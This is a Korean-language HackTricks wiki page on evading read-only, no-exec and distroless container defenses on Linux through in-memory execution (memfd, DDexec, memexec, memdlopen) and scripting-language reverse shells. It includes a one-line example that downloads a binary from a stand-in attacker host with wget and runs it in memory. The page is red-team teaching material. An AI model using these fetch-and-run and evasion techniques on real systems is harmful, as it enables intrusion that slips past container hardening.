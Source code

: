 # FS 보호 기능 우회: 읽기 전용 / 실행 불가 / Distroless

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 AWS 해킹을 제로부터 전문가까지 배우세요</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 PDF로 HackTricks를 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 **Discord 그룹**에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* 여러분의 해킹 기술을 공유하려면 **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하세요.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **저희가 채용 중입니다!** (_유창한 폴란드어 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## 비디오

다음 비디오에서는 이 페이지에서 언급된 기술에 대해 더 자세히 설명된 내용을 찾을 수 있습니다:

* [**DEF CON 31 - 은밀하고 회피를 위한 Linux 메모리 조작 탐색**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 메모리 dlopen()을 사용한 은밀한 침입 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 읽기 전용 / 실행 불가 시나리오

특히 컨테이너에서 **읽기 전용 (ro) 파일 시스템 보호**로 마운트된 리눅스 머신을 더 많이 찾을 수 있습니다. 이는 `securitycontext`에서 **`readOnlyRootFilesystem: true`**를 설정하는 것만큼 쉽기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되어 있더라도 **`/dev/shm`**은 여전히 쓰기 가능하므로 디스크에 아무것도 쓸 수 없는 것은 가짜입니다. 그러나 이 폴더는 **실행 불가 보호로 마운트**되므로 여기에 바이너리를 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
적색 팀 관점에서는 시스템에 이미 없는 바이너리(백도어 또는 `kubectl`과 같은 열거자)를 **다운로드하고 실행하는 것이 복잡**해집니다.
{% endhint %}

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, **해석기가 머신 내부에 있으면** **쉘 스크립트**(`sh`가 설치되어 있으면)나 **파이썬 스크립트**와 같이 **스크립트를 실행**할 수 있습니다.

그러나 이것만으로는 바이너리 백도어나 실행해야 할 다른 바이너리 도구를 실행할 수 없을 수도 있습니다.

## 메모리 우회

파일 시스템이 실행을 허용하지 않더라도 바이너리를 실행하려면 **메모리에서 실행**하는 것이 가장 좋습니다. **보호 기능이 적용되지 않기 때문**입니다.

### FD + exec 시스템 호출 우회

**Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 머신 내부에 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고, 이를 메모리 파일 디스크립터(`create_memfd` 시스템 호출)에 저장한 후 **`exec` 시스템 호출**을 호출하여 **fd를 실행할 파일로 지정**할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 이 프로젝트에 바이너리를 전달하면 **바이너리를 디코딩하고 압축 해제하는** 지침과 함께 **바이너리를 압축하고 b64로 인코딩**한 스크립트가 생성됩니다. 이 스크립트는 `create_memfd` 시스템 호출을 통해 만들어진 **fd**에 바이너리를 저장하고 실행하기 위해 **exec** 시스템 호출을 호출합니다.

{% hint style="warning" %}
PHP 또는 Node와 같은 다른 스크립팅 언어에서는 **스크립트에서 원시 시스템 호출을 호출하는 기본 방법**이 없기 때문에 `create_memfd`를 호출하여 **메모리 fd**를 만들 수 없으므로 이 방법은 작동하지 않습니다.

또한 `/dev/shm`에 파일이 있는 **일반 fd**를 만들어도 **실행할 수 없습니다**. 왜냐하면 **실행 불가 보호**가 적용되기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)는 **자신의 프로세스 메모리를 수정**하여 **`/proc/self/mem`**을 덮어쓰는 기술로, **프로세스가 실행하는 어셈블리 코드를 제어**하여 **쉘코드**를 작성하고 프로세스를 **임의의 코드를 실행하도록 변형**할 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**을 사용하면 **자신의 쉘코드** 또는 **메모리**에서 **임의의 바이너리**를 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec)은 DDexec의 자연스러운 다음 단계입니다. **DDexec 셸코드를 데몬화**한 것으로, **다른 이진 파일을 실행**하려면 DDexec을 다시 시작할 필요가 없습니다. 대신 DDexec 기술을 통해 memexec 셸코드를 실행한 다음 **이 데몬과 통신하여 새로운 이진 파일을 전달하고 실행**할 수 있습니다.

**memexec를 사용하여 PHP 역쉘에서 이진 파일을 실행하는 예제**는 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 찾을 수 있습니다.

### Memdlopen

DDexec과 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 이진 파일을 로드하여 나중에 실행하는 더 쉬운 방법**을 제공합니다. 이를 통해 종속성이 있는 이진 파일을 로드할 수도 있습니다.

## Distroless Bypass

### Distroless란

Distroless 컨테이너에는 특정 응용 프로그램이나 서비스를 실행하는 데 필요한 **최소한의 구성 요소만 포함**되어 있습니다. 이는 라이브러리 및 런타임 종속성과 같은 것들을 포함하지만 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 큰 구성 요소는 제외됩니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거**함으로써 컨테이너의 공격 표면을 **줄이고 악용될 수 있는 취약점의 수를 최소화**하는 것입니다.

### 역쉘

Distroless 컨테이너에서는 일반 쉘을 얻기 위해 `sh` 또는 `bash`를 **찾을 수 없을 수도** 있습니다. 또한 시스템에서 일반적으로 실행하는 `ls`, `whoami`, `id`와 같은 이진 파일도 찾을 수 없습니다.

{% hint style="warning" %}
따라서 보통 시스템에서 하는 것처럼 **역쉘을 얻거나** 시스템을 **열거**할 수 없을 것입니다.
{% endhint %}

그러나 kompromize된 컨테이너가 예를 들어 플라스크 웹을 실행 중이라면 파이썬이 설치되어 있으므로 **Python 역쉘**을 얻을 수 있습니다. Node를 실행 중이라면 Node 역쉘을 얻을 수 있으며 대부분의 **스크립팅 언어**도 마찬가지입니다.

{% hint style="success" %}
스크립팅 언어를 사용하여 언어 기능을 활용하여 시스템을 **열거**할 수 있습니다.
{% endhint %}

**`read-only/no-exec`** 보호 기능이 없는 경우, 역쉘을 악용하여 파일 시스템에 **자신의 이진 파일을 작성**하고 **실행**할 수 있습니다.

{% hint style="success" %}
그러나 이러한 종류의 컨테이너에서는 일반적으로 이러한 보호 기능이 존재하지만, **이전 메모리 실행 기술을 사용하여 이를 우회**할 수 있습니다.
{% endhint %}

**RCE 취약점을 악용하여 스크립팅 언어 역쉘을 얻고 메모리에서 이진 파일을 실행하는 방법**에 대한 **예제**는 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 찾을 수 있습니다.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있다면, 해킹할 수 없는 것을 해킹하고 싶다면 - **저희가 채용 중입니다!** (_유창한 폴란드어 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>**htARTE (HackTricks AWS Red Team Expert)**로부터 **제로**에서 **히어로**까지 AWS 해킹 배우기</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에 광고하거나 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 저희의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
